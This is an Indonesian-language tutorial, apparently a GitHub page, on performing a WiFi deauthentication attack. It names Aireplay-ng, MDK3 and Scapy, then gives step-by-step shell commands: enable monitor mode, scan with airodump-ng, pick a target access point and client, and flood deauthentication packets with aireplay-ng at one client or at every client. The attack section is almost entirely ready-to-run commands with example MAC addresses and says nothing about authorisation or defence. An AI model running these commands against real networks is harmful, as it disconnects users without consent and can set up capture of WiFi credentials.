 ## Alat yang Digunakan untuk Melakukan Deauthentication Attack

Ada berbagai alat yang dapat digunakan untuk melakukan serangan deauthentication, antara lain:

- **Aireplay-ng**: Alat ini adalah bagian dari suite Aircrack-ng, yang merupakan kumpulan alat untuk menguji keamanan jaringan WiFi. Aireplay-ng dapat digunakan untuk mengirimkan paket deauthentication ke perangkat yang terhubung ke jaringan WiFi.
- **MDK3**: Alat ini juga dapat digunakan untuk mengirimkan paket deauthentication. MDK3 memiliki beberapa fitur tambahan yang tidak dimiliki aireplay-ng, seperti kemampuan untuk mengirimkan paket deauthentication ke beberapa perangkat secara bersamaan.
- **Scapy**: Alat ini adalah library Python yang dapat digunakan untuk membuat dan mengirimkan paket jaringan. Scapy dapat digunakan untuk membuat paket deauthentication khusus.

## Cara Melakukan Deauthentication Attack

### 1. Setup Monitor Mode
#### Menggunakan `iwconfig`
```bash
nmcli
iwconfig
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

#### Menggunakan `airmon-ng`
```bash
airmon-ng
airmon-ng check kill  # Menghentikan Network Manager (opsional)
airmon-ng start wlan0
```

### 2. Mencari Target dengan `airodump-ng`
```bash
airodump-ng wlan0mon
```

### 3. Menargetkan Spesifik AP dan Klien
```bash
airodump-ng -d "target's BSSID" -c "target's channel number" wlan0mon
airodump-ng -d "target's BSSID" -c "target's channel number" -w "path/dir" wlan0mon
```
#### Contoh:
```bash
airodump-ng -d  6C:3B:6B:F2:4E:59 -c 10 -w Documents/testwifi wlan0mon
```

### 4. Melakukan Serangan Deauthentication
```bash
aireplay-ng -0 0 -a AP -c CLIENT wlan0mon
```
#### Contoh:
```bash
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon  # Menargetkan klien tertentu
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 wlan0mon  # Menargetkan semua klien
```
